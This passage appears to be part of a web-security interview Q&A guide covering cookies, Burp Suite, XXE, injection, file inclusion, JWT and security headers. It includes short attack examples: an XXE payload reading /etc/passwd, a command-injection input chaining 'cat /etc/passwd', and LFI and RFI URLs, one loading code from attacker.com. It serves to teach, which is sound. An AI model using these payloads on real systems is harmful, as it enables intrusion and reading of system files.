5. **Continuous Testing** : Regularly conduct security testing and code reviews to identify and mitigate vulnerabilities.

## 63. What is Cookie?


A cookie is a small piece of data stored on a user's device by a web browser while browsing a website. Cookies serve various purposes such as remembering user preferences, managing login sessions, and tracking browsing behavior for analytics. They enhance user experience by allowing websites to customize content based on previous interactions.

### 64. What are cookie attributes ?

1. **Secure Attribute** : Ensures that the cookie is only sent over encrypted connections, preventing attackers from stealing cookies through sniffing or man-in-the-middle attacks.

    - **Vulnerable Example** : Set-Cookie: session_id=abc123;
    - **Fix Example** : Set-Cookie: session_id=abc123; Secure

2. **HTTPOnly Attribute** : Protects cookies from being accessed by client-side scripts, mitigating Cross-Site Scripting (XSS) attacks. However, it doesn't entirely eliminate the risk of XSS attacks.

    - **Vulnerable Example** : Set-Cookie: session_id=abc123;	
    - **Fix Example** : Set-Cookie: session_id=abc123; HttpOnly

3. **Domain Attribute** : Specifies the domain for which the cookie is valid and can be submitted with requests. It can include the domain and its subdomains.

4. **Path Attribute** : Defines the URL or path for which the cookie is valid. The default path attribute is set to '/' slash.

5. **Expires Attribute** : Sets the expiration time for persistent cookies, indicating how long the browser should use the cookie before deleting it.

## 65.  What are your fav open source tools?

1. **Nuclei** : Nuclei is my favorite open-source tool because of its extensive collection of templates and regular updates.

## 66. Are there any paid tools that you wish to recommend for use in our organization?

**Burp Suite** : I believe this tool can handle the majority of our tasks effectively. Additionally, there are numerous open-source alternatives available for other tasks.

## 67. What features does Burp Suite offer?

Burp Suite is a proxy tool that acts as an intermediary between a client and server. It offers several tabs, including Proxy, Repeater, Decoder, and Intruder.

1. **Proxy Tab** : This tab configures a proxy between Burp and the browser, with rules for intercepting requests and responses.

2. **Repeater** : Used to repeat requests within Burp Suite.

3. **Decoder** : Decodes encoded strings like base64 or URL encoding.

4. **Intruder** : Conducts fuzzing and tests for various attacks.

Intruder offers four attack types:

1. **Sniper** : Tries one thing at a time, like trying different keys on a lock.

2. **Battering Ram** : Does the same thing to every part of the website, like using the same key for every door.

3. **Pitchfork** : Tries different things in different places, like using different keys for different doors.

4. **Cluster Bomb** : Tries all sorts of combinations to see what works, like trying every key in every lock.

## 68. What is XML?

XML stands for "extensible markup language". XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data.

### 69. What are XML entities?

Entities in XML are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built into the specification of the XML language. For example, the entities `&lt;` and `&gt;` represent the characters `<` and `>`. These are metacharacters used to denote XML tags.

## 70. What is XXE attack, explain any payload?

XML based attacks are generally referred to as XXE Attack. If the web app is running on XML, we can inject a XML Payload to fetch an internal file or also do a remote code execution.

**Payload** : 

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

## 71. What is SSL?

SSL, which stands for Secure Socket Layer, is a common security technology that makes online communication safe. It ensures that when you visit a website, the information exchanged between your browser and the website's server, such as credit card details or login information, is encrypted and secure. This encryption relies on a pair of keys, one public and one private, to keep your sensitive data safe.

## 72. What is a Wildcard SSL Certificate?

A Wildcard SSL Certificate secures both a primary domain (e.g., domain.com) and an unlimited number of its subdomains (e.g., mail.domain.com, blog.domain.com, login.domain.com). You can recognize a wildcard certificate by its asterisk notation, such as *.domain.com.


## 73. Does the certificate support TLS?

Yes, SSL certificates work with the TLS protocol. However, their effectiveness depends on the server settings. In simple terms, the certificate will support the protocols and ciphers that the server has enabled.

## 74. Describe how symmetric and asymetric encryption differ from one another.

**Symmetric encryption** :  Uses the same key for both encryption and decryption. This means that both the sender and the receiver need to have the same secret key to encrypt and decrypt messages. It's like having a single key that locks and unlocks a door.

**Asymmetric encryption** : Asymmetric encryption also known as public-key encryption, uses a pair of keys: a public key and a private key. The public key is widely distributed and is used for encryption, while the private key is kept secret and is used for decryption. This setup allows anyone to send encrypted messages to the owner of the public key, but only the owner can decrypt them using their private key.

## 75. What Is WAF?

A web application firewall, or WAF, is a security tool for monitoring, filtering and blocking incoming and outgoing data packets from a web application or website. WAFs can be host-based, network-based or cloud-based and are typically deployed through reverse proxies and placed in front of an application or website (or multiple apps and sites).



## 76. Difference between Session Hijacking and Session Fixation?


Session Hijacking:
Session hijacking occurs when an attacker gains unauthorized access to an active session established by a legitimate user. This typically happens after the user has logged in. The attacker may employ various methods, such as packet sniffing, Cross-Site Scripting (XSS) attacks, or IP spoofing, to intercept or manipulate the session data. Once the attacker gains control of the session, they can impersonate the legitimate user and perform actions on their behalf, potentially compromising the user's account.

Session Fixation:
Session fixation is an attack where the attacker initiates the session before the user logs in. The attacker provides the victim with a predetermined session ID or token, either through phishing or other means. When the victim logs in using the provided session ID/token, the attacker can hijack the session and gain unauthorized access to the user's account. This attack exploits weaknesses in session management mechanisms and relies on the victim unknowingly using the attacker-controlled session ID/token.

## 77. What is session management, and why is it important for web application security?

Session management, essential for web application security, refers to the process of managing user session data. It ensures the safety of user information, verifies user identities, and grants appropriate access permissions. By effectively controlling user sessions, it helps prevent unauthorized access to sensitive data, like passwords, thus fortifying the overall security of the application.

## 78. What is encryption, and why is it important for web application security?

Encryption is the process of converting plaintext data into ciphertext, making it unreadable to unauthorized users. This transformation is accomplished using an encryption algorithm and a cryptographic key. Encryption is crucial for web application security as it prevents unauthorized access to sensitive information and safeguards data integrity during transmission over the internet.

## 79. What is two-factor authentication, and why is it important for web application security?

Two-factor authentication (2FA) is a security protocol requiring users to provide two distinct forms of identification before accessing a system or resource.This method enhances security across various domains, from online accounts to physical access points like doors. 2FA requires users to present a combination of credentials, such as a password or PIN, alongside a secondary factor like a code sent to their smartphone or biometric data such as a fingerprint. By demanding multiple forms of verification, 2FA significantly strengthens security measures, mitigating the risk of unauthorized access.

## 80. What is input validation, and why is it important for web application security?

Input validation is the process of examining user input to ensure its safety and legitimacy before it is processed by a web application. It plays a crucial role in web application security by preventing potentially harmful attacks such as SQL injection, which could lead to data loss or theft. By implementing robust input validation mechanisms, web applications can verify the authenticity of incoming data and reject any malicious inputs, thereby enhancing overall security and safeguarding against various vulnerabilities.

## 81. What is password hashing, and why is it important for web application security?

Password hashing is a method of protecting passwords by converting them into a series of random characters, also known as a hash.This process is different from encryption, which is used to conceal information and can be reversed.Password hashes, on the other hand, are designed to be irreversible, meaning that even if a hacker gains access to the hash, they cannot determine the original password.

Password hashing is crucial for web application security as it ensures that even if a hacker gains access to the hashed passwords, they cannot decipher the original passwords. This adds an extra layer of protection to user credentials, mitigating the risk of unauthorized access and safeguarding sensitive user data.

## 82. What is OS command injection?

OS command injection, also referred to as shell injection, enables attackers to execute operating system (OS) commands on the server hosting an application, and typically fully compromise the application and its data. Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, and exploit trust relationships to pivot the attack to other systems within the organization.

**Example** : In a web application where users can perform a traceroute, an attacker injects an OS command along with the IP address:

```
127.0.0.1; cat /etc/passwd
```
 With this input, the server executes the legitimate traceroute command but also runs the injected command, granting the attacker access to sensitive system information such as /etc/passwd.

## 83. How to prevent OS command injection attacks

1. To prevent OS command injection vulnerabilities, avoid calling OS commands directly from application-layer code. Instead, opt for safer platform APIs.

2. If using OS commands with user input, implement strong input validation.

3. **Some examples of effective validation include** : 

    - Whitelisting permitted values.
    - Verifying input as a number.
    - Allowing only alphanumeric characters.

## 84. What is Code Injection

Code injection refers to attacks that involve injecting malicious code into an application. The application then interprets or executes the code, affecting the performance and function of the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation.

**Example** : http://example.com/index.php?page=phpinfo();


In this scenario, if an application fails to validate input from a GET request before passing it to the PHP include() function, attackers can exploit this vulnerability. They can manipulate the URL parameter to inject arbitrary code, such as executing the phpinfo() function, revealing sensitive server information. This underscores the importance of proper input validation to prevent code injection vulnerabilities, which can enable unauthorized commands execution within the application.

### 85. **Impacts of code injection**

1. An attacker is able to execute arbitrary server-side code. which result in a total loss of integrity, availability, and confidentiality within the application

2. An attacker may also abuse a code injection vulnerability to execute terminal commands on that server and pivot to adjacent systems.

### 86. **How to Protect Applications from Code Injection.**

1. **Validate User Input with Allow Lists** : Implement strict validation of user input using allow lists to only accept expected data formats, minimizing the risk of executing malicious code.

2. **Output Encoding** : Encode outputs to prevent injected data from being executed as code, especially in HTML, JavaScript, and other contexts.


## 87. How is Command Injection Different from Code Injection?

**Code injection** : Code injection is an attack where an attacker injects and executes malicious code within an application. This is typically done by sending a request to the target application, often through a browser, containing the injected code.

**Command Injection** : A command injection occurs when an attacker alters the application's default function for executing system commands.No new code is added. Command injection can lead to various breaches, such as downloading tools, stealing and changing credentials, or deleting files that depend on the privileges.


## 88. What is a File Inclusion Attack?

A file inclusion vulnerability enables an attacker to gain unauthorized access to sensitive files on a web server or execute malicious files through the utilization of the ‘include’ functionality. These attacks are typically associated with web applications and can have serious security effects if not properly mitigated.

The impact of these vulnerabilities can be extensive, including data exposure, server compromise, website defacement, and unauthorized code execution.

## 89. What are the Types of File Inclusion Attacks?

The primary types of file inclusion attacks are LFI and RFI.

## **Local File Inclusion (LFI)** 

Local File Inclusion (LFI) is a type of vulnerability commonly found in web applications that allows an attacker to include files located on the server. Typically, web applications dynamically include files in their code to load content such as configuration files, scripts, or templates. However, if the application does not properly sanitize user input, an attacker can manipulate the input to include arbitrary files from the local file system.With LFI, attackers can exploit this vulnerability to access sensitive files stored on the server, such as configuration files, user credentials, or system files.

**Example** : Consider a website that includes files based on a "page" parameter in the URL, like so: 
```
http://example.com/index.php?page=about.php
```

If the website doesn't properly validate or sanitize user input, an attacker could manipulate the "page" parameter to include arbitrary files from the server's file system. For instance, they could change the URL to:
```
http://example.com/index.php?page=/etc/passwd
```

## **Remote File Inclusion (RFI)**

Remote File Inclusion (RFI) is a vulnerability present in web applications that allows attackers to include external files on a server. Unlike Local File Inclusion (LFI), where the attacker includes files already present on the server, RFI involves including files from remote locations, typically controlled by the attacker.

In RFI attacks, web applications dynamically include files using user-supplied input, such as URLs. If the application fails to properly validate and sanitize this input, an attacker can manipulate it to include malicious files hosted on external servers. These files can contain arbitrary code, enabling the attacker to execute commands or perform actions on the server.

**Example** :  Consider a website that includes external files based on a "page" parameter in the URL, like so: 

```
http://example.com/index.php?page=about.php
```
If the website doesn't properly validate or sanitize user input, an attacker could manipulate the "page" parameter to include a malicious file hosted on their own server, such as:

```
http://example.com/index.php?page=http://attacker.com/malicious.php
```

### 90. What Is the Difference Between LFI and RFI?

LFI involves including files already present on the target server, while RFI involves including files from remote servers controlled by the attacker. Both vulnerabilities can have severe security implications if not properly mitigated.

## 91. What is Privilege? Type of Escalation.

Privilege escalation typically involves gaining higher-level permissions within a system or application.

### There are several types of privilege escalation:

1. **Horizontal Privilege Escalation:** Involves gaining access to another user's account or privileges at the same level, typically within a multi-user environment.

2. **Vertical Privilege Escalation:** Involves gaining higher levels of access or permissions, such as escalating from a regular user to an administrator

## 92. Different between IDOR(insecure direct object resources) and Privilege Escalation

Privilege escalation involves obtaining higher-level permissions within a system or application, while Insecure Direct Object Reference (IDOR) involves manipulating object references in an application to access unauthorized data.

## 93. What is insecure deserialization?

Insecure deserialization refers to a security vulnerability that arises when an application does not properly validate or sanitize the data during the deserialization process. Serialization is the process of converting an object or data structure into a format that can be easily stored or transmitted, and deserialization is the reverse process of reconstructing the object from its serialized form.

### 94. Prevention of insecure deserialization.

- **Use Safe Deserialization Libraries:** Use libraries and frameworks that provide secure deserialization features, such as Java's ObjectInputStream with a security manager or .NET's DataContractSerializer.
- **Limit Deserialization Permissions:** Restrict the classes that can be deserialized and use least privilege principles to minimize the impact of deserialization vulnerabilities.

- **Input Validation:** Always validate and sanitize input data, especially when deserializing objects. Ensure that only expected data types and formats are accepted.


## 95. What is SSTI

Server-Side Template Injection (SSTI) is when an application allows user input to control the templates that are used for rendering content on the server side. This can happen when user input is directly embedded into templates without proper validation or sanitization, allowing an attacker to inject template code that is executed by the server.

## 96. Explain JWT ( JSON Web Token )

JWT stands for JSON Web Token, a compact and secure way to transmit information between two parties. Commonly used for authentication and authorization in web applications, a JWT consists of three parts: a header, which specifies the token type and hashing algorithm; a payload, which contains claims about the user and additional metadata; and a signature, which is created by encoding the header and payload with a secret key using the specified algorithm. This signature ensures the integrity and authenticity of the token. By sending the JWT with each request, the server can verify the user's identity and permissions without maintaining session state, making JWTs a popular choice for secure information transmission between client and server.

## 97. Explain what is CVE

CVE stands for Common Vulnerabilities and Exposures. It is a system that provides a reference method for publicly known information-security vulnerabilities and exposures. Each CVE entry has a unique identifier and a brief description of the vulnerability. This system helps security professionals and organizations to share, track, and address security flaws in software and hardware consistently. First launched in 1999, CVE is managed and maintained by the National Cybersecurity FFRDC (Federally Funded Research and Development Center), which is operated by the MITRE Corporation. CVEs are widely used to improve cybersecurity by making it easier to communicate and remediate vulnerabilities.

## 98. Explain difference between Threat vs Vulnerability vs Risk

**Threat** : A threat is any potential event or action that can cause harm to an organization’s systems, networks, or data. Threats can be intentional, like cyber-attacks by hackers, or unintentional, like natural disasters or accidental data deletion.

**Example** : Imagine you have a house. A threat is something that could harm your house, like a burglar who might break in and steal your belongings.

**Vulnerability** : A vulnerability is a weakness or flaw in a system, network, or process that can be exploited by a threat. Vulnerabilities can exist in software, hardware, or human procedures and can result from poor design, configuration errors, or lack of updates.

**Example** : Now, let's say your house has a broken lock on the front door. That broken lock is a vulnerability because it's a weakness that the burglar could use to get inside easily.

**Risk** : Risk is like the chance of something bad happening when a weakness is exposed. It's a mix of how likely that bad thing is to occur and how much damage it could do. Organizations look at risks to figure out how to protect themselves from threats exploiting vulnerabilities.

**Example** : The risk is the chance that the burglar will actually break in because of that broken lock. If the neighborhood has a lot of burglaries and your house has a broken lock, the risk of a break-in is high. But if you fix the lock and add security measures, like an alarm system, you reduce the risk.

Summary:

**Threat** : Something bad that could happen (e.g., burglar).
Vulnerability: A weakness that can be exploited (e.g., broken lock).
Risk: The chance of the bad thing happening and causing harm.


## 99. What are security headers and how do they enhance the security of web applications?

Security headers are HTTP response headers that provide instructions to web browsers on how to behave when interacting with a website. These headers are used to enhance the security of web applications by helping to prevent various types of attacks and vulnerabilities. Some common security headers include:

1. **Content Security Policy (CSP)** : Defines trusted sources for content, instructing the browser on which origins are safe to load resources from. By restricting the origins from which resources like scripts can be executed, CSP mitigates the risk of cross-site scripting (XSS) attacks, enhancing the security of web applications.

    - **Example** : `Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';`

2. **Strict-Transport-Security (HSTS)** : Instructs browsers to only access the website over HTTPS, even if the user types "http://" in the address bar. This reduces the risk of man-in-the-middle attacks and protocol downgrade attacks.

    - **Example** : `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`

3. **X-Frame-Options** : Determines whether a web page can be displayed within an iframe. This helps prevent clickjacking attacks by ensuring that the page is not embedded in malicious websites.

    - **Example** : `X-Frame-Options: DENY`

4. **X-XSS-Protection** : Enables a built-in XSS filter in modern web browsers to detect and mitigate certain types of XSS attacks.

    - **Example** : `X-XSS-Protection: 1; mode=block`

5. **Content-Type Options** : Prevents browsers from trying to guess the MIME type of a resource, which can help mitigate MIME sniffing attacks.

    - **Example** : `X-Content-Type-Options: nosniff`


## 100. What is Http Parameter Pollution Attack ?

HTTP Parameter Pollution (HPP) is a type of web attack where an attacker manipulates the parameters of a URL or HTTP request to exploit vulnerabilities in a web application. In this attack, the attacker injects additional parameters or modifies existing ones in the HTTP request sent to the server. This can lead to unexpected behavior in the application, potentially allowing the attacker to bypass security measures, access unauthorized information, or perform actions that they are not supposed to.

For example, consider a web application that uses URL parameters to identify users and their permissions. An attacker may manipulate these parameters to change their own user ID to that of an admin, granting themselves elevated privileges within the application.

HPP attacks can occur in various contexts, including:

1. Query strings in URLs.
2. Form submissions in HTML.
3. Cookies sent with HTTP requests.
4. HTTP headers.

To prevent HTTP Parameter Pollution attacks, developers should:

1. Validate and sanitize user input.
2. Use proper encoding and escaping techniques.
3. Implement strong access controls and authentication mechanisms.
4. Regularly update and patch the web application to fix known vulnerabilities.


